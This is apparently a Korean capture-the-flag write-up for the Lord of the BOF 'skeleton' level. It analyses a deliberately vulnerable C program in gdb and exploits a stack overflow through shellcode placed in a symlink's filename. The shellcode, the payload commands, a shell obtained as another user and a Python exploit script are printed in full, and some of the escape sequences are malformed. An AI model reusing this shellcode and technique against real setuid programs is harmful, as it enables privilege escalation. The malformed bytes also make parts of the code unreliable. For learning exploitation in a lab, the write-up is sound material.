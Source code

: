 ```yaml
---
title: "[LOB]Level10. skeleton"
tags: [LOB, writeup]
author: eli_ez3r
key: 20180830
modify_date: 2019-11-13
article_header:
  type: cover
  image:
    src: 
---
```


[+ argvHunter](#){:.button.button--outline-success.button--pill}

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - skeleton
        - argv hunter
*/
#include <stdio.h>
#include <stdlib.h>

extern char **environ;

main(int argc, char *argv[])
{
	char buffer[40];
	int i, saved_argc;

	if(argc < 2){
		printf("argv error\n");
		exit(0);
	}

	// egghunter
	for(i=0; environ[i]; i++)
		memset(environ[i], 0, strlen(environ[i]));

	if(argv[1][47] != '\xbf')
	{
		printf("stack is still your friend.\n");
		exit(0);
	}

	// check the length of argument
	if(strlen(argv[1]) > 48){
		printf("argument is too long!\n");
		exit(0);
	}

	// argc saver
	saved_argc = argc;

	strcpy(buffer, argv[1]);
	printf("%s\n", buffer);

    // buffer hunter
    memset(buffer, 0, 40);

	// ultra argv hunter!
	for(i=0; i<saved_argc; i++)
		memset(argv[i], 0, strlen(argv[i]));
}
```

-----

### 0x01. Analysis

- RET 시작주소 `\xbf`
- argv[1] 48byte 길이 제한
- 환경변수 초기화
- buffer배열 초기화
- **argv 인자값 모두 초기화**

argv 인자값 모두 초기화되기 때문에 이전문제처럼 argv[0]값을 이용한 풀이는 불가능해 보인다.

하지만, **환경변수 영역에서 초기화 할 수 없는 영역**이 있다. 그것은 바로 자신의 명령어, 즉 **실행 파일 이름은 초기화 될 수 없다.**

```
[vampire@localhost vampire]$ gdb -q akeleton
(gdb) set dis int
(gdb) b*main
Breakpoint 1 at 0x8048500
(gdb) r `python -c 'print "\xbf"*48'`
Starting program: /home/vampire/akeleton `python -c 'print "\xbf"*48'`

Breakpoint 1, 0x8048500 in main ()
(gdb) x/50s $esp
0xbffffdda:      "i686"
0xbffffddf:      "/home/vampire/akeleton"
0xbffffdf6:      '? <repeats 48 times>
0xbffffe27:      "PWD=/home/vampire"
0xbffffe39:      "REMOTEHOST=192.168.23.1"
0xbffffe51:      "HOSTNAME=localhost.localdomain"
0xbffffe70:      "LESSOPEN=|/usr/bin/lesspipe.sh %s"
0xbffffe92:      "USER=vampire"
0xbffffe9f:      "LS_COLORS="
0xbffffeaa:      "MACHTYPE=i386-redhat-linux-gnu"
0xbffffec9:      "MAIL=/var/spool/mail/vampire"
0xbffffee6:      "INPUTRC=/etc/inputrc"
0xbffffefb:      "BASH_ENV=/home/vampire/.bashrc"
0xbfffff1a:      "LANG=en_US"
0xbfffff25:      "LOGNAME=vampire"
0xbfffff35:      "SHLVL=1"
0xbfffff3d:      "SHELL=/bin/bash2"
0xbfffff4e:      "USERNAME="
0xbfffff58:      "HOSTTYPE=i386"
0xbfffff66:      "OSTYPE=linux-gnu"
0xbfffff77:      "HISTSIZE=1000"
0xbfffff85:      "TERM=ansi"
0xbfffff8f:      "HOME=/home/vampire"
0xbfffffa2:      "PATH=/usr/local/bin:/bin:/usr/bin:/usr/X11R6/bin:/home/vampire/bin"
0xbfffffe5:      "/home/vampire/akeleton"
```

 환경변수가 초기화 되기 전 환경변수 영역의 값들이다. 

```
(gdb) b*main+368
Breakpoint 2 at 0x8048670
(gdb) c
Continuing.
옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜

Breakpoint 2, 0x8048670 in main ()
(gdb) x/50s 0xbffffddf
0xbffffddf:      ""
0xbffffdf6:      ""
============================(생략)===========================
0xbfffffa2:      ""
0xbfffffe5:      "/home/vampire/akeleton"
```

main 함수가 끝나기 직전 환경변수 영역이다.

비교해 보면 실행파일의 이름을 저장하는 영역인 `0xbfffffe5` 환경변수 영역은 초기화 되지 않았음을 확인 할 수 있다. 따라서 argv[0]의 영역이 아닌 이부분을 이용하여 심볼릭링크를 활용하면 될것 같다.



먼저, 공격에 사용될 payload와 똑같은 길이로 심볼릭 링크를 생성한 후, core 덤프를 확인하여 실제 주소를 확인하자.

```
[vampire@localhost vampire]$ ln -s akeleton `python -c 'print "A"*50+"S"*48+"A"*32'`
[vampire@localhost vampire]$ ./`python -c 'print "A"*50+"S"*48+"A"*32'` `python -c 'print "\x90"*44+"\xbf\xbf\xbf\xb f"'`
릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱옜옜
Segmentation fault (core dumped)
```

> 스택 최상단부라 그런지 심볼릭 링크 만들때 Shell Code 뒷부분에 NOP Code를 안넣으니 실제 exploit 할 때 계속 segment fault가 떳다. 때문에 Shell Code 뒤에 충분한 공간을 만들어준다.

```
[vampire@localhost vampire]$ gdb -q -c core
Core was generated by `                                                                              '.
Program terminated with signal 11, Segmentation fault.
#0  0xbfbfbfbf in ?? ()
(gdb) x/100x $esp
=================================(생략)=====================================
0xbfffff70:     0x00000000      0x2e000000      0x4141412f      0x41414141
0xbfffff80:     0x41414141      0x41414141      0x41414141      0x41414141
0xbfffff90:     0x41414141      0x41414141      0x41414141      0x41414141
0xbfffffa0:     0x41414141      0x41414141      0x53414141      0x53535353
0xbfffffb0:     0x53535353      0x53535353      0x53535353      0x53535353
0xbfffffc0:     0x53535353      0x53535353      0x53535353      0x53535353
0xbfffffd0:     0x53535353      0x53535353      0x41535353      0x41414141
0xbfffffe0:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffff0:     0x41414141      0x41414141      0x00414141      0x00000000
0xc0000000:     Cannot access memory at address 0xc0000000
```

초기화 되지 않는 환경변수 영역의 주소는 `0xbfffff80` 주변임을 확인한다.



-----

### 0x02. Exploit

```
'\x2f'없는 shell(48byte) = \xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81
```

이제 실제 Shell Code를 이용하여 심볼릭 링크를 `skeleton` 바이너리와 연결하여 생성한다.

```
[vampire@localhost vampire]$ ln -s skeleton `python -c 'print "\x90"*50+"\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xf f\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x5 1\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"+"\x90"*32'`
```

```
[vampire@localhost vampire]$ ./`python -c 'print "\x90"*50+"\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9 \x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2 \x9a\xb1\x0c\xce\x81"+"\x90"*32'` `python -c 'print "\x90"*44+"\x91\xff\xff\xbf"'`
릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱?
풺ash$ id
uid=509(vampire) gid=509(vampire) euid=510(skeleton) egid=510(skeleton) groups=509(vampire)
bash$ my-pass
euid = 510
shellcoder
bash$
```

-----

### 0x03. 정리

이 문제에서 **실제 실행되는 파일의 이름은 스택 최상단에 저장되어 있으며 이는 초기화 할 수 없음**을 확인 할 수 있는 문제였다.

그리고 이름에 심볼릭 링크를 설정할 때 ShellCode 뒤에 일정 공간을 만들어 줘야 ShellCode가 잘 실행되었다.

-----

```python
import os
import struct

append = lambda x: payload + x
p32 = lambda x: struct.pack("<I", x)

shellcode = "\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\x\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"

target = "\x90"*50 + shellcode + "\x90"*32

shellcode_addr = 0xbfffff80

payload = "\x90"*44
payload = append(p32(shellcode_addr))

pid = os.fork()

if pid == 0:
        os.execv(target, (target, payload))
else:
        os.waitpid(pid, 0)
```

-----

